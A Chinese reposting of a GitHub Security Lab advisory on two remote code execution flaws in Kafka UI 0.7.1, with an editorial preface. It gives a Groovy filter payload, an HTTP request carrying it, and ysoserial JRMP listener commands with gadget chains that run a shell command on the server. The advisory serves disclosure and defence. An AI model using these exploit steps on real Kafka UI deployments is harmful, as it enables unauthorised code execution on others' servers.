





# Apache Kafka UI 中的远程代码执行 （RCE） - CVE-2023-52251、CVE-2024-32030

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：测试0.7.1，认证开启时需相应账户权限；52251需消息触发Groovy过滤器；32030需dynamic.config.enabled=true或控制已连接集群/JMX，且gadget适用
- 证据范围：分别说明无沙箱Groovy与恶意JMX两阶段修改安全属性再反序列化，两条机制清楚，应按多实体保留。

### 本次正文校订

- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Kafka UI 属Provectus，不是Apache Kafka本体，应修正目录/产品标识
- JMX基于RMI不意味着天然必然可RCE，需强调不安全反序列化及gadget
- 默认设置运行dynamic.config.enabled=true的说法自相矛盾，正文已说明此配置默认关闭
- 两阶段修改系统属性持久影响进程，需披露复现副作用
- 保留原始GHSL署名/披露时间线，移除大量动图广告

### 操作风险与资料使用

- 涉及 LDAP/RMI/DNS/HTTP 外带：回连只证明相应网络交互，不能单独证明命令执行；使用自控接收端，避免把日志、凭据或真实业务数据发送给第三方。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

 Ots安全   2024-06-22 12:07  
  
  
  
协调披露时间表  
- 2023-11-29：报告发送至maintainers.kafka-ui@provectus.com  
  
- 2024-01-02：发送后续电子邮件  
  
- 2024-01-23：未收到回复。https://github.com/provectus/kafka-ui/ 存储库中已创建私人安全问题。  
  
- 2024-02-19：未收到回复。又发送了一封后续电子邮件，通知即将达到 90 天的披露期限。  
  
- 2024-02-29：未收到回复。向 info@provectus.com 发送了另一封电子邮件  
  
- 2024-02-29：维护者回复称将尽快修复漏洞。  
  
- 2024-04-02：发送后续电子邮件  
  
- 2024-04-08：维护人员回复说他们将在 4 月中旬发布修复程序。  
  
- 2024-04-10：修复程序随 Kafka UI 0.7.2 版本发布。  
  
概括  
  
Kafka UI 受到两个远程代码执行漏洞的影响。第一个漏洞位于消息过滤组件中，可导致执行任意未沙盒化的 Groovy 脚本。第二个漏洞可通过滥用 Kafka UI 连接到恶意 JMX 服务器来利用，从而通过不安全的反序列化导致 RCE。这尤其危险，因为 Kafka UI 默认未启用身份验证。如果为 Kafka UI 实例启用了身份验证，则攻击者需要拥有有效的帐户。  
  
产品  
  
Apache Kafka 的 UI（https://github.com/provectus/kafka-ui）  
  
测试版本  
  
v0.7.1  
  
细节  
  
问题 1：通过消息过滤中的 Groovy 脚本执行进行 RCE（GHSL-2023-229/CVE-2023-52251）  
  
Kafka UI 允许根据用户提供的过滤器显示通过 Kafka 集群的消息。服务器支持的过滤器类型之一是GROOVY_SCRIPT。通过使用此过滤器，潜在的恶意人员不仅可以查看消息的内容和属性，还可以在服务器上执行任意代码。此过滤器绝不是沙盒化的。  
  
易受攻击的方法：com.provectus.kafka.ui.emitter.MessageFilters#groovyScriptFilter  
```
static Predicate<TopicMessageDTO> groovyScriptFilter(String script) {
  var engine = getGroovyEngine();
  var compiledScript = compileScript(engine, script);
  var jsonSlurper = new JsonSlurper();
  return new Predicate<TopicMessageDTO>() {
    @SneakyThrows
    @Override
    public boolean test(TopicMessageDTO msg) {
      var bindings = engine.createBindings();
      bindings.put("partition", msg.getPartition());
      ...
      var result = compiledScript.eval(bindings);
```  
  
重现步骤  
1. 使用默认设置运行 Kafka UI 并将其连接到任何 Kafka 集群。  
  
1. 在 Kafka UI 中，导航到 cluster->Topics->Messages 并使用以下内容创建一个新的过滤器：  
  
```
new ProcessBuilder("touch","/tmp/pwnd.txt").start()
```  
  
  
  
通过向应用程序发送以下 GET 请求也可以完成相同的操作：  
```http
GET /api/clusters/local/topics/topic/messages?q=new+ProcessBuilder%28%22touch%22%2C%22%2Ftmp%2Fpwnd.txt%22%29.start%28%29&filterQueryType=GROOVY_SCRIPT&attempt=7&limit=100&page=0&seekDirection=FORWARD&keySerde=String&valueSerde=String&seekType=BEGINNING HTTP/1.1
Host: 127.0.0.1:8091
```  
1. 如果当前主题有任何消息，脚本将立即在服务器上执行。或者，您可以使用 Kafka UI 界面向代理发送新消息以触发脚本执行。  
  
1. 执行后  
/tmp/pwnd.txt会在服务器上创建一个文件。  
  
影响  
  
此问题可能导致身份验证后远程代码执行。这尤其危险，因为 Kafka UI 默认未启用身份验证。  
  
问题 2：通过 JMX 指标收集中的 JNDI 解析进行 RCE（GHSL-2023-230/CVE-2024-32030）  
  
Kafka UI API 允许用户通过指定网络地址和端口连接到不同的 Kafka 代理。作为一项单独的功能，它还提供了通过连接到其 JMX 端口来监控 Kafka 代理性能的功能。JMX 基于 RMI 协议，因此它本质上容易受到反序列化攻击。潜在攻击者可以通过将 Kafka UI 后端连接到其自己的恶意代理来利用此功能。攻击者无需设置合法的 JMX 端口，而是可以创建一个 RMI 侦听器，该侦听器会为任何 RMI 调用返回恶意序列化对象。在最坏的情况下，它可能导致远程代码执行，因为 Kafka UI 在其类路径中具有所需的小工具链。  
  
先决条件：漏洞会影响发生以下情况之一的部署：  
1. dynamic.config.enabled属性在设置中设置。默认情况下不启用它，但建议在许多 Kafka UI 教程中启用它，包括其自己的 README.md。  
  
1. 或者攻击者可以访问连接到 Kafka UI 的 Kafka 集群。在这种情况下，攻击者可以利用此漏洞扩展其访问权限并在 Kafka UI 上执行代码。  
  
重现步骤  
1. 使用默认设置运行 Kafka UI   
dynamic.config.enabled=true。  
  
1. 使用纯文本侦听器启动任何 Kafka 代理，无需身份验证（本地或在 docker 中）。请勿将其连接到 Kafka UI。  
  
1. 现在我们需要设置一个恶意 JMX 监听器。我们将使用ysoserial 工具生成一个带有有效载荷的序列化对象，用于远程代码执行。为了演示，我在我的存储库中准备了一个特殊的 ysoserial 分支：https://github.com/artsploit/ysoserial/tree/scala1 您可以使用以下命令克隆并运行它：  
  
```shell
git clone https://github.com/artsploit/ysoserial/
cd ysoserial && git checkout scala1
mvn package -D skipTests=true #make sure you use Java 8 for compilation, it might not compile with recent versions
java -cp target/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1718 Scala1 "org.apache.commons.collections.enableUnsafeSerialization:true"
```  
  
该工具将监听端口 1718 上的传入连接。  
  
1.在 Kafka UI 中，导航到仪表板->配置新集群，并将 kafka 代理的地址与 ysoserial 的 JMX 端口 1718 一起输入。确保在本地主机或同一主机上运行 kafka 代理和 ysoserial。  
  
  
  
添加此集群后，您可以在 ysoserial 工具中看到传入连接。它将使用恶意负载响应 Kafka UI。  
  
  
  
此有效载荷将在 Kafka UI 端反序列化。它不会直接触发 RCE，但会导致将系统属性设置  
org.apache.commons.collections.enableUnsafeSerialization为  
true。您可能会注意到 Kafka UI 日志中存在一些错误，这是预期的：  
  
  
  
接下来，要真正获得 RCE，您需要使用以下命令重新运行 ysoserial：  
```
java -cp target/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1718 CommonsCollections7 "touch /tmp/pwnd2.txt"
```  
  
如果等待的时间稍长一些，Kafka UI 将重新连接到此 JMX 端口以再次获取指标，从而触发另一个对象的反序列化。只要之前已由另一个 payload 启用，就会导致在 Kafka UI java 进程中  
org.apache.commons.collections.enableUnsafeSerialization执行该命令。  
touch /tmp/pwnd2.txt  
  
同样，Kafka UI 日志输出将充满错误，但这是预料之中的：所有异常都在反序列化发生并执行命令后抛出：  
  
  
  
如果你对反序列化如何触发和命令执行感到好奇System.setProperty，可以看看相应小工具链的源代码：Scala1.java和CommonsCollections7.java 。另外，你可以在StreamRemoteCall.java#L271 设置断点来查看对象是如何反序列化的。  
  
影响  
  
此问题可能导致身份验证后远程代码执行。这尤其危险，因为 Kafka-UI 默认未启用身份验证。  
  
漏洞漏洞  
- CVE-2023-52251  
  
- CVE-2024-32030  
  
信用  
  
这些问题是由 GHSL 团队成员@artsploit (Michael Stepankin)发现并报告的。  
  
```
https://securitylab.github.com/advisories/GHSL-2023-229_GHSL-2023-230_kafka-ui/
```  
  
  
  
  
感谢您抽出  
  
  
  
.  
  
  
  
.  
  
  
  
来阅读本文  
  
  
  
**点它，分享点赞在看都在这里**  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
